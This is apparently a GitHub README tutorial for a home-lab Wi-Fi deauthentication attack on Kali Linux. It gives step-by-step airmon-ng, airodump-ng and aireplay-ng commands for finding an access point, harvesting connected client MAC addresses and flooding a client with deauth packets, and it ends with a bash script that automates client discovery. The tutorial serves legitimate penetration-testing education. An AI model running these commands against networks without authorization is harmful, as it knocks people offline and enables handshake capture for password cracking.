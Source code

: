 # Wi-Fi Deauthentication Attack Tutorial (Kali Linux)

> **Disclaimer:**  
> This tutorial is provided strictly for **educational purposes** and **authorized penetration testing**.  
> Do **not** use these tools on networks you do not own or have explicit permission to test.  
> Unauthorized use is **illegal** and may result in criminal prosecution.

---

## Table of Contents

- [Overview](#overview)
- [Prerequisites](#prerequisites)
- [Step 1: Enable Monitor Mode](#step-1-enable-monitor-mode)
- [Step 2: Discover the Target Access Point (AP)](#step-2-discover-the-target-access-point-ap)
- [Step 3: Isolate Clients Connected to the AP](#step-3-isolate-clients-connected-to-the-ap)
- [Step 4: Perform a Deauthentication Attack](#step-4-perform-a-deauthentication-attack)
- [Step 5: Bash Script to Automate Discovery](#step-5-optional-bash-script-to-automate-discovery)
- [Final Thoughts](#final-thoughts)

---

## Overview

In this tutorial, you’ll learn how to:
- Enable monitor mode on a wireless adapter
- Use `airodump-ng` to find nearby Access Points and connected devices
- Target a specific AP and identify connected clients (stations)
- Use `aireplay-ng` to deauthenticate a client, useful for WPA handshake capture

---

## Prerequisites

- A computer running **Kali Linux**
- A **wireless adapter that supports monitor mode and packet injection**
  - In this lab I leverage the **HAK5 MK7AC WiFi Adapter**
- An access point that can use the WPA2-Personal protocol **AND** is using the 2.4GHz transmission frequency
  - In this lab I leverage the **NETGEAR R6400-100NAS** *Circa 2017*
*Note this lab hinges on these two commponents. I would recommend using an older router*
- Tools that already should be included in Kali:
  - `airmon-ng`
  - `airodump-ng`
  - `aireplay-ng`
- Superuser (`sudo`) privileges

---

## Step 1: Enable Monitor Mode

First, identify your wireless interface. As you can see below my inteface is called wlan0. Depending on how many wireless interfaces you have the one you want to choose may vary. 
*Note: I'm using root so I don't need to add sudo to my commands*

```bash
iwconfig
```

![Image](images/1.png)

Next, using airmon-ng, part of the Aircrack-ng suite, is used for enabling and utilizing monitor mode. Essentially this mode lets the user monitor Wi-Fi traffic and capture packets. Now that it's in monitor mode the way to access this interface is via the **wlan0mon**. 

```bash
airmon-ng start wlan0
```

![Image](images/2.png)

## Step 2: Discover the Target Access Point

Now that we have a wireless adapter that is in monitor mode it's time to determint the BSSID and Channel of the access point we are going to attack. Using the **wland0mon** interface we can begin to seach for these access points. Please be aware this only works on the 2.4GHz signal

```bash
sudo airodump-ng wlan0mon
```

![Image](images/3.png)

After some time elaspse my router was able to be located aptly called **Lab_AP**. Noting the BSSID **A0:04:60:3A:1F:E5** and the channel, thrid column to the right **9** I have what I need to begin an attack.


## Step 2.5: Attempting an attack

Once you find the BSSID and Channel you can attempt a deauthentication attack against the access point's connected devices. However, it will try to spoof the MAC address of a device that's already connected. Unless you have the devices address it will be very difficult and require quite a bit of brute force to disconnect devices

First, make sure to set your wireless device in monitoring mode to the right channel otherwise it won't find the access point.

```bash
iwconfig wlan0mon channel <CH>
```

![Image](images/5.png)


Leveraging the known BSSID you can attempt an attack.

```bash
aireplay-ng -0 100 -a <BSSID> wlan0mon
```
- -0 is the deauth attack type
- -100 is the  number of packets to send
- -a is the BSSID of the AP

![Image](images/6.png)

*I tested this with an old device hooked up to the access point and attempted this blind attack twice resulted in failed dauthentcation of the device*

## Step 3: Isolate Clients Connected to the AP

Once you find the BSSID and Channel you can attempt a deauthentication attack against the access point's connected devices. However, this time we'll acquire the client's MAC address first. 

```bash
airodump-ng --bssid <BSSID> --channel <CH> --write capture wlan0mon
```

![Image](images/7.png)

*Under the STATION column resides the MAC address of a device connected to the access point*

## Step 4: Preforming the Deauthentication Attack

After acquiring the MAC address you'll be able to begin the attack on the client device.

```bash
aireplay-ng -0 100 -a <BSSID> wlan0mon -c <CLIENT> wlan0mon
```

- -0 is the deauth attack type
- -100 is the  number of packets to send
- -a is the BSSID of the AP
- -c is the Client MAC address

![Image](images/8.png)

**Before starting the attack**

![Image](images/9.png)

**After the attack**

![Image](images/10.png)

## Step 5: Bash Script to Automate Discovery

You can automate the process of discovery by using a shell script like this. It simply takes two parameters at runtime the BSSID and the Channel. 
- There's a 10 second time limit for a time out.
- We make the call to airodump-ng to start the process of finding the clients on the device and writing it to an output.
- Then we grep out what we want from the csv file from the first column and then using regex to match a MAC address from the csv file.
- The sort just removes duplicates.


```bash
#!/bin/bash

# Simple Client MAC Discovery Tool

MON=wlan0mon
BSSID=$1
CHANNEL=$2
DURATION=10

if [[ -z "$BSSID" || -z "$CHANNEL" ]]; then
    echo "Usage: $0 <BSSID> <Channel>"
    exit 1
fi

echo "[****] Scanning for clients connected to BSSID: $BSSID on channel $CHANNEL"
timeout $DURATION airodump-ng --bssid $BSSID --channel $CHANNEL --write scan_output --output-format csv $MON > /dev/null 2>&1

echo "[****] Extracting connected clients"
grep "$BSSID" scan_output-01.csv | awk -F ',' '{print $1}' | grep -E "([0-9A-Fa-f]{2}:){5}[0-9A-Fa-f]{2}" | sort -u

echo "[****] Done."

```
